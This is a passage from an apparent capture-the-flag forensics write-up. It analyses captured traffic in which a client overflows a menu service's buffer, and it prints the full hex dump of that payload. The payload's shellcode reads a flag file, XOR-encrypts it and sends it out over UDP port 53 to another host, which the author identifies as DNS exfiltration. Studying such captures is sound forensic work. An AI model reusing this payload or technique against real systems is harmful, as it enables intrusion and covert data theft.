   ```
  000000C5  20 64 65 6c 65 74 65 20  64 61 74 61 0a 5b 33 5d    delete  data.[3]
  000000D5  20 71 75 69 74 0a                                   quit.
  000000DB  63 68 6f 69 63 65 3e 20                            choice>  
  
  00000010  33 20 41 41 41 41 41 41  41 41 41 41 41 41 41 41   3 AAAAAA AAAAAAAA
  00000020  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000030  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
  00000050  41 41 10 41 40 00 00 00  00 00 68 74 78 74 00 48   AA.A@... ..htxt.H
  00000060  bf 74 61 5f 64 61 74 61  2e 57 48 bf 64 61 74 61   .ta_data .WH.data
  00000070  2f 73 61 6e 57 48 89 e7  48 31 f6 48 31 d2 b8 02   /sanWH.. H1.H1...
  00000080  00 00 00 0f 05 48 89 c7  48 ba 00 00 01 00 01 00   .....H.. H.......
  00000090  00 00 52 6a 00 6a 00 6a  00 6a 00 48 89 e6 48 ba   ..Rj.j.j .j.H..H.
  000000A0  01 00 00 00 00 00 00 20  52 48 ba 00 00 00 13 37   .......  RH.....7
  000000B0  01 00 00 52 ba 20 00 00  00 b8 00 00 00 00 0f 05   ...R. .. ........
  000000C0  48 31 c9 81 34 0e ef be  ad de 48 83 c1 04 48 83   H1..4... ..H...H.
  000000D0  f9 20 75 ef bf 02 00 00  00 be 02 00 00 00 48 31   . u..... ......H1
  000000E0  d2 b8 29 00 00 00 0f 05  48 89 c7 48 89 e6 48 83   ..)..... H..H..H.
  000000F0  c6 03 ba 32 00 00 00 41  ba 00 00 00 00 6a 00 49   ...2...A .....j.I
  00000100  b8 02 00 00 35 c0 a8 00  2a 41 50 49 89 e0 41 b9   ....5... *API..A.
  00000110  10 00 00 00 b8 2c 00 00  00 0f 05 bf 00 00 00 00   .....,.. ........
  00000120  b8 3c 00 00 00 0f 05 0a                            .<...... 
  
  000000E3  67 6f 6f 64 20 62 79 65  21                        good bye !
  ```

  Apparently, the last client message (starting with `3 AAAA...`) is the exploit.

- DNS query (`192.168.0.1 --> 192.168.0.42`):
  
  ![](dns.png)

  This is the exfiltration of the encrypted flag (`data/santa_data.txt`).


## server.sh
